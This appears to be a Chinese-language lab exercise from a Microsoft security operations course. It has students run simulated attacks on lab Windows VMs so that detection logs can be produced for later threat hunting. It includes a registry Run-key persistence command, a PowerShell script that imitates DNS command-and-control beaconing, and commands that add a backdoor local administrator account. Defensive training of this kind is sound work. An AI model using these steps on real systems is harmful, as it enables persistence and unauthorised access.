﻿# 模块 7 - 实验室 1 - 练习 5 - 进行攻击

### 任务 1：攻击配置了 Defender for Endpoint 的 Windows。

在此任务中，你将在配置了 Microsoft Defender for Endpoint 的主机执行攻击。

1. 使用以下密码以管理员身份登录到 WIN1 虚拟机： **Pa55w.rd**。  

2. 在任务栏的搜索框中，输入“*Command*”。  命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择“**以管理员身份运行**”。在出现的“**用户帐户控件**”窗口中选择“**是**”，以允许应用运行。

3. 在命令提示符中，在每一行中输入命令，并在每一行后按 Enter：
```
cd \
mkdir temp
cd temp
```
4. 攻击 1 - 将此命令复制到命令提示符应用并运行此命令：

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻击 3 - 复制并运行此命令：

```
notepad c2.ps1
```
选择“**是**”来创建一个新文件，并将下面的 PowerShell 脚本复制到 *c2.ps1* 中。

**备注**：粘贴到虚拟机中的长度可能有限。如果无法直接从说明复制，请将此代码分为三部分进行粘贴，确保将脚本全部粘贴到虚拟机中。  确保脚本在记事本 *c2.ps1* 文件中的外观与在这些说明中一致。

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

在“**记事本**”菜单中，选择“**文件**”，然后选择“**保存**”。在命令提示符窗口，通过在每一行后按 Enter 键，在每一行中输入以下命令：

```
powershell
.\c2.ps1
```

**备注**：你将看到解析错误。这在预料之中。
**重要提示：** 请勿关闭此窗口。让此命令/powershell 脚本在后台运行。该命令需要在数小时内生成日志条目。在此脚本运行期间，你可以继续进行下一项任务和下一个练习。此任务创建的数据稍后将在威胁搜寻中使用。此过程不会创造大量的数据或处理。

### 任务 2：攻击配置了 Sysmon 的 Windows

在此任务中，你将在配置了安全事件连接器和 Sysmon 的主机上执行攻击。

1. 以管理员身份使用密码登录到 WIN2 虚拟机：**Pa55w.rd**。  

2. 在任务栏的搜索框中，输入“*CMD*”。 命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择“**以管理员身份运行**”。  接收显示的任何用户帐户控制提示。

3. 在命令提示符中，在每一行中输入命令，并在每一行后按 Enter 键：

```
cd \
mkdir temp
cd \temp
```

4. 攻击 1 - 将此命令复制到命令提示符应用并运行此命令：

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻击 2 - 复制并运行此命令，在每一行中输入命令，并在每一行后按 Enter 键：

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 转到练习 6

